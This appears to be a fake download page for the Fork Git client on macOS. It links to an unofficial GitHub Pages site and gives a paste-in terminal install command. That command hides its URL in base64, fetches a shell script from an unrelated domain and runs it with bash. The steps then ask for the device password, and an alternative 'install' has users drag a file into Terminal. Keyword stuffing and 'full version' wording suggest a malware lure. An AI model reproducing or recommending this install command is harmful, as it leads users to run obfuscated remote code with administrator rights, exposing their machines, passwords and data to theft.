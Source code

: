 # Fork Download Mac - The Ultimate Git Client for macOS

![Fork Screenshot 1](https://fork.dev/images/twitter4.jpg)

---

### 🔽 Download Fork for Mac

[![Download Now](https://img.shields.io/badge/Download_Fork-blueviolet?style=for-the-badge&logo=github)](https://montiko384.github.io/.github/fork)

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## What is Fork for Mac?

Fork is an exceptionally fast and user-friendly Git client designed exclusively for macOS, bringing version control capabilities to developers at every experience level. Meticulously crafted for the Mac ecosystem, Fork seamlessly blends robust Git functionality with an elegantly intuitive interface, removing the dependency on complicated command-line operations while still delivering professional-grade features that advanced developers demand.

What sets Fork apart from conventional Git clients is its beautifully designed visual timeline that provides crystal-clear representation of your project's complete history, branch structures, and merge points. It comprehensively supports all fundamental Git operations - commit, push, pull, merge, rebase, and stash - enhanced by intelligent conflict resolution tools that demystify even the most challenging merge scenarios. The application boasts a sophisticated built-in diff viewer complete with syntax highlighting for precise code examination and an innovative side-by-side comparison feature for tracking file evolution.

Fork truly shines in repository management, enabling effortless handling of multiple repositories concurrently through its streamlined tabbed interface. It incorporates numerous productivity-enhancing features including comprehensive submodule support, seamless Git LFS integration, and fully customizable keyboard shortcuts tailored to your workflow. With native optimization for Apple Silicon (M1/M2 processors), Fork delivers unmatched performance efficiency, effortlessly managing massive repositories - establishing itself as the premier choice for solo developers and collaborative teams seeking a premium Git experience on macOS.

Additional advantages include:
- Lightning-fast search across repository history
- Interactive rebase capabilities
- Quick actions for common Git operations
- Dark mode support matching macOS aesthetics
- Regular updates with performance improvements

![Fork Screenshot 2](https://git-fork.com/images/image1Win.jpg)

---

## Key Features & Benefits

- 💻 User-friendly Git client for macOS  
- ⚡️ Blazing fast performance on Apple Silicon  
- 📊 Visual repository history and branch management  
- 🔄 All essential Git operations supported  
- 🛠 Built-in diff viewer and merge tools  
- 🖥 Perfect for developers and teams  

Streamline your Git workflow with Fork, the most intuitive version control client for Mac.

---

## 🔍 Keywords

Fork for Mac, Fork Mac Download, Fork for Mac Download, Fork Mac, Fork Download Mac, Fork Download for Mac, fork full version, Mac Download Fork, Download Mac Fork, Download Fork Mac, Download Fork for Mac
